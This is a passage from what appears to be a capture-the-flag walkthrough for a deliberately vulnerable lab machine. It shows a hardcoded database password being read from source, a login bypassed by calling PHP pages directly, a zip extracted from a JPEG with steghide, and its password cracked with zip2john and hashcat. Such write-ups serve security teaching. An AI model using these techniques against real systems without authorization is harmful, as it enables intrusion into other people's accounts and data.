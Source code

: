 Let's explore `files` folder. Read the content of `index.php` and we will find:
```
<SNIP>
		try
		{
			$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
			$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
		}
<SNIP>
```
Currently, we cannot do much more, because these root credentials don't allow to access as root in the server.

The files in `/var/www/files` seem to be a new web service. So, inside our reverse shell, run:
```
php -S 0.0.0.0:8080
```
Now, by the browser, navigate to `http://10.10.204.221:8080` and we get a login page. We can bypass it by calling directly the PHP pages inside `/var/www/files` directory. Let's visit `http://10.10.204.221:8080/hacker.php`.

We land in a page with the following string:
```
You have reached this far.
Look in the dark! You will find your answer
```
We guess the "dark" could be referred to some hidden file inside the hacker JPEG image. Save it and run:
```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase: <empty>
wrote extracted data to "backup.zip".
```
This archive is password-protected. Let's use John for cracking it:
```
zip2john backup.zip > zip.hash
```
In this case, edit `zip.hash` removing the name of the zip file and its content at the beginning and the end of the string in order that Hashcat or John can recognize this hash.

Let's crack it:
```
hashcat -a 0 -m 17200 zip.hash $SECLISTS/Passwords/Leaked-Databases/rockyou.txt
```
The cracked password is: `pass1word`. So:
```
unzip backup.zip

Archive:  backup.zip
[backup.zip] source_code.php password: pass1word
  inflating: source_code.php 
```
Inside `source_code.php` file, we can see:
```
if(isset($_POST['submit']))
        {
                $email = $_POST["email"];
                $password = $_POST["password"];
                if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
                {
                        $random = rand(1000,9999);?><br><br><br>
                        <form method="POST">
                                Enter the OTP: <input type="number" name="otp">
                                <input type="submit" name="submitOtp" value="Submit">
                        </form>
                <?php   mail($email,"OTP for authentication",$random);
                        if(isset($_POST["submitOtp"]))
                                {
```